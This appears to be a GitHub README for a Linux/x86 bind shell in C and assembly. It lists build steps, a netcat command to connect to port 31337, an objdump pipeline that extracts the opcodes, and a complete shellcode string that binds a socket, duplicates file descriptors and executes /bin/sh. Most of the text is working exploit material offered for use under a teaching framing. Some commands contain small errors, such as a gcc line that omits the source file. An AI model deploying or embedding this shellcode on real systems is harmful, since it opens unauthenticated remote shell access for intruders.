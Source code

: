 # Linux-x86-bind-shellcode-with-C-and-Assembly

Linux/x86 bind shellcode with C and Assembly 

*jump to this common bind shell in C

How To Use : 

(1)

-gcc blind_shell.c -o blind_shell  
  [or]
-gcc -m32 blind_shell -o blind_shell

Run: 

./blind_shell

listen : 

nc -vvv localhost 31337 ( localhost is testing in my local network )


......................................................................

    Important Notes!

    I know there are many articles out there that creating same shellcode as well. As I promised earlier, I’ll create a shellcode that literally easier to understand more than most of the articles.

    The consequence is, this shellcode will be much longer compared to another’s. But I don’t care since your understanding is the most important thing.
    
........................................................................
(2)

-nasm -f elf32 -o BindShell.o BindShell.nasm
-ld -o BindShell BindShell.o


Jump the Shellcode :


objdump -d ./BindShell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'


Shellcode :

"\x31\xc0\x31\xdb\x31\xd2\xb0\x66\xb3\x01\x52\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb3\x02\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a\x10\x51\x56\xb0\x66\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x52\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb0\x3f\xcd\x80\x41\xb0\x3f\xcd\x80\x41\xb0\x3f\xcd\x80\xb0\x0b\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80\xb0\x01\xb3\x01\xcd\x80"

Thanks for reading! :)

Best Regards,

Thank :  Habibie Faried : Omicron John : Xero 

